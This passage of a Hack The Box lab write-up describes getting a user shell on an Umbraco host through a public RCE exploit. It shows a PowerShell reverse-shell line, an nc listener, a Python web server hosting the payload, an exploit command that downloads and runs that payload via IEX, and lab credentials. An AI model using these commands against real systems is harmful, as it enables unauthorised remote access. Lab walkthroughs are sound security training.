We find an RCE exploit for this version on [exploit-db](https://www.exploit-db.com/exploits/46153).
You can use the python script from exploit-db, but I preferred to use [this](https://github.com/noraj/Umbraco-RCE) one because I wanted to use command line arguments.

To get a reverse shell, we need to upload a PowerShell reverse shell and execute it on the target. This can be done with [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#file-powershell_reverse_shell-ps1) reverse shell.

We need to change the first part to:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("LOCAL_IP",LOCAL_PORT);$stream = $client.GetStream();
```

Then start a listener on the same port.

```bash
finlay@kali:~$ nc -nvlp LOCAL_PORT
```

We need to start a HTTP web server in the same directory as the powershell script so that we can download it from the target.

```bash
finlay@kali:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Finally, to get the shell use the Umbraco CVE python script from earlier.

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://LOCAL_IP:8000/powershell_reverse_shell-ps1')"
```
And we can see that we get a connection on our listener:

![user_shell](images/user_shell.png)

## User.txt

We find the user.txt flag in C:\Users\Public

![user_flag](images/user_flag.png)
